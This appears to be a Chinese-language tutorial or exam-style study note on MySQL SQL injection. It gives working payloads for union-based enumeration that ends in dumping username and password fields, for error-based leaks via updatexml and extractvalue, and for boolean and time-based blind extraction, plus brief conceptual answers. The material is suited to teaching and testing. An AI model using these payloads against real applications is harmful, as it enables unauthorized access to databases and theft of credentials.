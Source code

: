2、union联合查询：

![image-20220314160224692](https://bao-1309906221.cos.ap-nanjing.myqcloud.com/20220314160224.png)

**MySQL类型的sql注入联合查询注入查出school数据库中student表中username和age字段数据的流程是什么(提供详细的查询语句)？** 

```
-1’ union select 1,2,3--+      //查看回显
-1’ union select 1,2,database()--+   //获取数据库名为school
-1’ union select 1,2, group_concat(table_name) from information_schema.tables where table_schema="school"--+       //获取school数据库下的数据表
-1’ union select 1,2, group_concat(column_name) from information_schema.columns where table_name="student"--+       //获取student数据表中的字段值
-1’ union select 1,2, concat_ws(char(32,58,32),username,password) from student--+  //查询student数据表中username和password的值
```

3、报错注入：利用页面返回的MySQL报错信息，将想得到的数据通过报错信息带出。

Updatexml、extractvalue、rand()等

```
select 1 and updatexml(1,concat(0x7e,(select user()),0x7e),1);
select 1 and extractvalue(1,concat(0x7e,(select user()),0x7e));
```

4、盲注：当不能直接通过显示数据来获得数据库数据时，需要使用其他方式判断或者尝试，这个过程就是盲注。

基于布尔盲注(根据页面返回内容判断)

----------left函数：left(a,b)从a的左侧截取a的前b位正确返回1，错误返回0。

```
 select 1 and left(database(),1)='s';
```

----------substr函数：select database() substr(1,1),substr(a,b,c)从b截取a的c位长度

```
select substr((select username from users limit 0,1),1,1);
```

----------ascii: ascii('s')获取s的ascii值

```
select ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))<68; 
```

基于时间盲注(根据页面响应时间判断)

```
select if((ascii(substr((select username from users limit 0,1),1,1))=68),sleep(5),2);
```

**简述sql注入中联合查询和盲注有什么区别、盲注分为哪几种类型?**

联合查询是由两个或两个以上的select语句组成，查询结果通过页面回显出来；盲注是当页面无法回显数据库数据时，通过盲注根据页面是否能正常返回页面或者页面的响应时间来判断。

盲注分为布尔盲注和时间盲注：

布尔盲注通过页面返回的内容来判断，当select语句查询为真时，页面内容正常，当select语句查询为假时，页面中有些信息不会显示出来。函数主要有left函数、substr函数、ascii函数。
